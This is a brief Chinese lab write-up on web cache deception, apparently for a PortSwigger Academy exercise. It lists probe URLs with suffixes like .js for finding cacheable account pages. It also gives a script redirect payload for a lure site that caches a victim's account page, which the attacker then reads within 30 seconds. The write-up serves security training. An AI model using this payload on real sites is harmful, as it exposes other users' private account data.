 将目标的敏感信息缓存到 URL 中.

为方便演示, 将结果: `敏感信息,X-Cache` 以数字 `0` 和 `1` 组合演示;
不存在的信息用 `0` 表示, 存在的信息用 `1` 表示

## 1. PoC

1. 访问 https://example.com/my-account 1,0
2. 访问 https://example.com/my-accounttest 0,0
3. 访问 https://example.com/my-account/test 1,0
   (在这一步测试可用的分隔符)
4. 访问 https://example.com/my-account/test.js 1,1
   (后缀可能是: `.js` , `.css` , `.ico` , `.exe`)
5.  `Cache-Control: max-age=30` 则在 30 秒内重新发送请求
   响应中的 `X-Cache: miss` 变为 `X-Cache: hit` 

## 2. Exploit

1. 制作一个网站诱导目标访问

   ```
   <script>document.location="https://YOUR-LAB-ID.web-security-academy.net/my-account/wcd.js"</script>
   ```

2. 访问后会缓存目标的敏感信息

   ```
   https://YOUR-LAB-ID.web-security-academy.net/my-account/wcd.js
   ```

3. 此时攻击者在 30 秒内从隐私浏览器中访问 URL 即可得到目标的敏感信息

---

- [Web cache deception](https://portswigger.net/web-security/web-cache-deception)

